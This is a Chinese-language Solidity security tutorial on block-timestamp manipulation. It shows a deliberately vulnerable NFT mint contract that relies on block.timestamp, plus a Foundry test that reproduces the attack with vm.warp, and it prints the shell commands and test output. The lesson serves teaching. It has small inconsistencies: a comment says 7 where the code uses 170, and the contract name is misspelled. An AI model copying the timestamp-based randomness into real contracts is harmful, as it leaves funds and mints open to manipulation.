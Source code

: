 ```yaml
---
title: S14. 操纵区块时间
tags:
- solidity
- security
- timestamp
---
```


# WTF Solidity 合约安全: S14. 操纵区块时间

我最近在重新学solidity，巩固一下细节，也写一个“WTF Solidity极简入门”，供小白们使用（编程大佬可以另找教程），每周更新1-3讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.wtf.academy)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在github: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

-----

这一讲，我们将介绍智能合约的操纵区块时间攻击，并使用 Foundry 复现。在合并（The Merge）之前，以太坊矿工可以操纵区块时间，如果抽奖合约的伪随机数依赖于区块时间，则可能被攻击。

## 区块时间

区块时间（block timestamp）是包含在以太坊区块头中的一个 `uint64` 值，代表此区块创建的 UTC 时间戳（单位：秒），在合并（The Merge）之前，以太坊会根据算力调整区块难度，因此出块时间不定，平均 14.5s 出一个区块，矿工可以操纵区块时间；合并之后，改为固定 12s 一个区块，验证节点不能操纵区块时间。

在 Solidity 中，开发者可以通过全局变量 `block.timestamp` 获取当前区块的时间戳，类型为 `uint256`。

## 漏洞例子

此例子由[WTF Solidity合约安全: S07. 坏随机数](https://github.com/AmazingAng/WTF-Solidity/tree/main/32_Faucet)中的合约改写而成。我们改变了 `mint()` 铸造函数的条件：当区块时间能被 170 整除时才能成功铸造：

```solidity
contract TimeMnipulation is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当区块时间能被7整除时才能mint成功
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // mint
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## Foundry复现攻击

攻击者只需操纵区块时间，将它设为能被 170 整除的数字，就可以成功铸造 NFT。我们选择 Foundry 来复现这个攻击，因为它提供了修改区块时间的作弊码（cheatcodes）。如果你不了解 Foundry/作弊码，可以阅读 [Foundry教程](https://github.com/AmazingAng/WTFSolidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md) 和 [Foundry Book](https://book.getfoundry.sh/forge/cheatcodes)。

代码大致逻辑

1. 创建一个 `TimeManipulation` 合约变量 `nft`。
2. 创建一个钱包地址 `alice`。
3. 使用作弊码 `vm.warp()` 将区块时间改为 169，由于不能被170整除，铸造失败。
4. 使用作弊码 `vm.warp()` 将区块时间改为 17000，由于可以被170整除，铸造成功。

代码：

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.4;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/TimeManipulation.sol";

contract TimeManipulationTest is Test {
    TimeManipulation public nft;

    // Computes address for a given private key
    address alice = vm.addr(1);

    function setUp() public {
        nft = new TimeManipulation();
    }

    // forge test -vv --match-test  testMint
    function testMint() public {
        console.log("Condition 1: block.timestamp % 170 != 0");
        // Set block.timestamp to 169
        vm.warp(169);
        console.log("block.timestamp: %s", block.timestamp);
        // Sets all subsequent calls' msg.sender to be the input address
        // until `stopPrank` is called
        vm.startPrank(alice);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));

        // Set block.timestamp to 17000
        console.log("Condition 2: block.timestamp % 170 == 0");
        vm.warp(17000);
        console.log("block.timestamp: %s", block.timestamp);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));
        vm.stopPrank();
    }
}

```

在安装好 Foundry 之后，在命令行输入下列命令启动新项目，并安装 openzeppelin 库：

```shell
forge init TimeMnipulation
cd TimeMnipulation
forge install Openzeppelin/openzeppelin-contracts
```

将这一讲的代码分别复制到`src`和`test`目录下，然后使用下列命令启动测试用例：

```shell
forge test -vv --match-test testMint
```

输出如下：

```shell
Running 1 test for test/TimeManipulation.t.sol:TimeManipulationTest
[PASS] testMint() (gas: 94666)
Logs:
  Condition 1: block.timestamp % 170 != 0
  block.timestamp: 169
  alice balance before mint: 0
  alice balance after mint: 0
  Condition 2: block.timestamp % 170 == 0
  block.timestamp: 17000
  alice balance before mint: 0
  alice balance after mint: 1

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```

我们可以看到，当我们将` block.timestamp` 修改为 17000时，铸造成功。

## 总结

这一讲，我们介绍了智能合约的操纵区块时间攻击，并使用 Foundry 复现了它。在合并（The Merge）之前，以太坊矿工可以操纵区块时间，如果抽奖合约的伪随机数依赖于区块时间，则可能被攻击。合并之后，以太坊改为固定 12s 一个区块，并且验证节点不能操纵区块时间。因此这类攻击不会在以太坊上发生，但仍可能在其他公链中遇到。